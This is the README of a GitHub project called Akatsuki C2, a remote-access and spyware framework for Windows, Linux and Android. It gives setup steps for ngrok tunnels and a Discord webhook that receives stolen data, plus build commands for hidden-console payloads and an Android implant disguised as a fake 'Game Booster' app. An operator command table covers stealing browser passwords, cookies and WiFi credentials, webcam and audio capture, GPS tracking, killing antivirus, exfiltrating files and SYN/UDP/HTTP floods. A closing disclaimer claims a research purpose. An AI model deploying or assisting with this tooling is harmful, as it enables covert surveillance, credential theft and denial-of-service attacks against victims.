


<!-- ============================================================
     AKATSUKI C2 — OFFICIAL REPOSITORY
     ============================================================ -->

<div align="center">

```
        ___   __ __ ___  ______ _____ __  __ __ __ ____
       /   | / //_//   |/_  __// ___// / / // //_//  _/
      / /| |/ ,<  / /| | / /   \__ \/ / / // ,<   / /  
     / ___ / /| |/ ___ |/ /   ___/ / /_/ // /| |_/ /   
    /_/  |_/_/ |_/_/  |_/_/   /____/\____//_/ |_/___/   
                                                    C 2
```

# ◈ **AKATSUKI C2** ◈

*We are the shadows that move between the gaps in the system.*


</div>

---

## ☁ Overview

**AKATSUKI C2** is a cross-platform Command & Control framework built for stealth operations. It combines the flexibility of Python with the raw power of native C++ implants, supporting **Windows**, **Linux**, and **Android** targets simultaneously from a single operator console.

All sensitive URLs and credentials are protected by a **multi-layered obfuscation engine** (S-BOX substitution, Feistel Network, Fisher-Yates shuffle, SHA-256 key derivation) — no plaintext strings ever touch disk.

---

## ☁ Features

| Category | Capability |
| :--- | :--- |
| 🖥️ **Windows** | Native C++ implant (WinAPI), Python payload (.exe via Nuitka/PyInstaller) |
| 📱 **Android** | APK module (Kivy UI + background service), Termux agent |
| 🔐 **Obfuscation** | Feistel cipher, S-BOX, Fisher-Yates shuffle — auto-injected by wizard |
| 🎯 **Arsenal** | Browser stealer (passwords/cookies/history), WiFi harvester, AV killer |
| 📸 **Surveillance** | Screenshot, webcam, screen recording, audio recording, GPS tracking |
| 🌐 **Networking** | Subnet scanner, port scanner, SYN/UDP/HTTP flood |
| 🔄 **Persistence** | Scheduled tasks, hidden directory, process masquerading |
| 💬 **Reporting** | Real-time Discord webhook relay (C2-proxied for OPSEC) |
| 🖥️ **TUI** | Rich interactive terminal with multi-client management |
| ⚡ **Live Stream** | Real-time screen + audio streaming via WebSocket |

---

## ☁ Project Structure

```
Fsociety/
├── Akatsuki.py            # Setup Wizard — configure, obfuscate, build
├── obfuscator.py          # Encryption engine (Feistel + S-BOX + SHA-256)
├── requirements.txt       # Python dependencies
│
├── Python/
│   ├── c2.py              # C2 Server + Rich TUI
│   ├── payloads-pc.py     # Windows/Linux payload
│   └── payloads-ph.py     # Android/Termux payload
│
├── CPP/
│   ├── main.cpp           # Native Windows implant
│   ├── config.h           # Runtime-decoded C2 configuration
│   ├── obf_decode.h       # C++ port of the decoder
│   ├── build.bat          # One-click build script
│   ├── comms.cpp/h        # WinHTTP communication
│   ├── arsenal.cpp/h      # Browser stealer, WiFi, etc.
│   ├── recon.cpp/h        # Screenshot, webcam, recording, geo
│   ├── killer.cpp/h       # AV/EDR process killer
│   ├── scanner.cpp/h      # Network scanner + DDoS
│   ├── shell.cpp/h        # Stateful shell
│   └── utils.cpp/h        # Helpers
│
├── APK/
│   ├── main.py            # Kivy UI (fake "Game Booster" app)
│   ├── service.py         # Background C2 agent
│   └── buildozer.spec     # APK build config
│
└── build/                 # Compiled output (gitignored)
```

---

## ☁ Quick Start

### 1. Clone & Install

```bash
git clone https://github.com/X2xuyu/Akatsuki-C2.git
cd Fsociety
pip install -r requirements.txt
```

### 2. Get Your C2 URL (ngrok)

You need a public URL so payloads can reach your C2 server from the internet. The easiest way is **ngrok**.



**Step 1 — Create a free account:**
1. Go to [https://ngrok.com/](https://ngrok.com/) and click **Sign up**
2. Register with email or GitHub account
3. After login, you'll see your **Dashboard**

**Step 2 — Install ngrok:**

| OS | Command |
| :--- | :--- |
| **Windows** | `choco install ngrok` or download from [ngrok.com/download](https://ngrok.com/download) |
| **macOS** | `brew install ngrok` |
| **Linux** | `snap install ngrok` or download `.tgz` |

**Step 3 — Connect your account:**
```bash
ngrok config add-authtoken YOUR_AUTH_TOKEN
```
> Your auth token is on the ngrok Dashboard → **Your Authtoken** page.

**Step 4 — Start the tunnel:**
```bash
ngrok http 8080
```

You'll see output like this:
```
Forwarding  https://a1b2-203-0-113-42.ngrok-free.app → http://localhost:8080
```

**Copy the `https://....ngrok-free.app` URL** — this is your **C2 URL** for the wizard.

> ⚠️ Free ngrok URLs change every time you restart. For a permanent URL, use a paid plan or [Cloudflare Tunnel](https://developers.cloudflare.com/cloudflare-one/connections/connect-apps/).

---

### 3. Get Your Discord Webhook URL

The C2 server sends reports and stolen data to your Discord channel via a **Webhook**.

> **Requirement:** You must own a Discord server (or have Manage Webhooks permission).



**Step 1 — Open Server Settings:**

Right-click your server name (or click the dropdown arrow ▾) → Click **Server Settings**

**Step 2 — Go to Integrations:**

In the left sidebar, scroll down to the **APPS** section → Click **Integrations**

**Step 3 — Open Webhooks:**

Click on **Webhooks** → Then click **New Webhook**

**Step 4 — Create & Copy:**

1. Give it a name (e.g. `C2-Reporter`)
2. Select the channel where you want reports to appear
3. Click **Copy Webhook URL**

The URL will look like:
```
https://discord.com/api/webhooks/1234567890/ABCDefghIJKLmnopQRSTuvwxyz...
```

**Save this URL** — you'll paste it into the wizard.

> ⚠️ **Never share your webhook URL publicly!** Anyone with the URL can post to your channel. The Akatsuki wizard will automatically encrypt it before storing.

---

### 4. Run the Setup Wizard

```bash
python Akatsuki.py
```

The wizard will ask for the URLs you just obtained:

| Step | What it does |
| :--- | :--- |
| **Platform** | Choose target: Python PC, Android, C++, or All |
| **C2 URL** | Paste your ngrok/Cloudflare URL here |
| **Webhook** | Paste your Discord Webhook URL here |
| **Encryption** | Set obfuscation key & Feistel rounds |
| **Port** | Set C2 listening port (default: 8080) |
| **Mode** | TEST (visible console) or PRODUCTION (hidden) |
| **OPSEC** | Mutex name, fake process name, persistence task |

After confirmation, the wizard automatically:
- ✅ Encrypts your C2 URL and Webhook with the Feistel cipher
- ✅ Injects the encrypted bytes into every payload file
- ✅ Updates encryption keys across all platforms (Python + C++)
- ✅ Sets operational parameters (heartbeat, persistence, etc.)
- ✅ Optionally builds `.exe` / C++ binaries

### 5. Start the C2 Server

```bash
python Python/c2.py
```

### 6. Deploy a Payload

Send the configured payload to the target. The agent will auto-register with the C2.


---

## ☁ Wizard Commands

| Command | Description |
| :--- | :--- |
| `python Akatsuki.py` | First-time setup / use saved config |
| `python Akatsuki.py --re` | Re-configure (edit existing settings) |
| `python Akatsuki.py --new` | Factory reset all files to defaults |
| `python Akatsuki.py --load config.json` | Load configuration from file |

> **Tip:** Type `--re` at any prompt during the wizard to go back to the previous step.

---

## ☁ Building Artifacts

### ◈ Python → .exe (Windows)

The wizard offers 3 build methods:

| Method | Protection Level | Speed |
| :--- | :--- | :--- |
| **Nuitka** | ★★★★★ Native C compilation | Slow (5-10 min) |
| **PyArmor + PyInstaller** | ★★★★☆ Obfuscated bytecode | Medium |
| **PyInstaller** | ★★☆☆☆ Basic packaging | Fast |

Or build manually:
```powershell
# Nuitka (recommended)
pip install nuitka
python -m nuitka --standalone --onefile --windows-console-mode=disable Python/payloads-pc.py

# PyInstaller (basic)
pip install pyinstaller
pyinstaller --onefile --noconsole Python/payloads-pc.py
```

### ◈ C++ → .exe (Native Windows)

Requires **MinGW-w64** (`g++`).

```powershell
cd CPP
.\build.bat            # TEST mode (console visible)
.\build.bat release    # PRODUCTION mode (hidden)
```

### ◈ Python → .apk (Android)

```bash
# On Linux (or WSL)
cd APK
pip install buildozer
buildozer -v android debug
```

### ◈ Termux (Direct)

```bash
pkg install python termux-api
python payloads-ph.py
```

---

## ☁ C2 Server Commands

Once a client is connected, use `select <ID>` then:

| Command | Description |
| :--- | :--- |
| `ss` / `screenshot` | Take a screenshot |
| `wc` / `webcam` | Capture webcam photo |
| `rec_a <sec>` | Record audio |
| `rec_v <sec> [cam/screen]` | Record video |
| `record <sec> [--full]` | AV-sync screen+audio recording |
| `steal passwords` | Dump browser saved passwords |
| `steal cookies` | Dump browser cookies |
| `wifi` | Extract saved WiFi credentials |
| `geo` | Geolocate target (GPS + IP) |
| `export <file>` | Exfiltrate a specific file |
| `scan` | Scan local network |
| `scan <subnet> <ports>` | Scan specific subnet |
| `attack syn <ip> <port>` | SYN flood |
| `attack udp <ip> <port>` | UDP flood |
| `attack http <url>` | HTTP flood |
| `killer start/stop` | AV/EDR process killer |
| `ps` / `processes` | List running processes |
| `kill <name>` | Kill a process |
| `sys_update` | Push binary update to target |
| `sys_upload <file>` | Upload file to target |
| `live` | Start real-time screen stream |
| Any other text | Execute as shell command |

---

## ☁ Obfuscation Engine

The built-in `obfuscator.py` uses a 5-layer encryption pipeline:

```
Input → PKCS7 Pad → S-BOX Sub → Bit Rotation → Fisher-Yates Shuffle
      → Feistel Network (4 rounds) → XOR Diffusion → Encrypted Bytes
```

Manual usage (the wizard does this automatically):
```bash
python obfuscator.py "http://your-c2:8080"
python obfuscator.py "http://your-c2:8080" custom_key 6
```

---

## ☁ Tech Stack

| Component | Stack | Role |
| :--- | :--- | :--- |
| 🏰 **C2 Server** | Python / Flask / Rich | Orchestration & TUI |
| 🛡️ **Native Core** | C++17 / WinAPI | Stealth implant |
| 📱 **Mobile** | Kivy / Buildozer / pyjnius | Android APK agent |
| 📦 **Storage** | SQLite3 | Local credential database |
| 🔐 **Crypto** | SHA-256 / Feistel / AES S-BOX | URL & webhook obfuscation |
| 💬 **Reporting** | Discord Webhooks | Real-time exfiltration relay |

---

## ☁ Contributing

Pull Requests are welcome — but only if your code is clean, tested, and purposeful. ◈

## ☁ Disclaimer

This project is intended for **authorized security research and educational purposes only**. Unauthorized use against systems you do not own or have explicit permission to test is illegal. The authors assume no liability for misuse.

## ☁ License

MIT License.

---

<div align="center">

◈ *AKATSUKI DIVISION* ◈

</div>
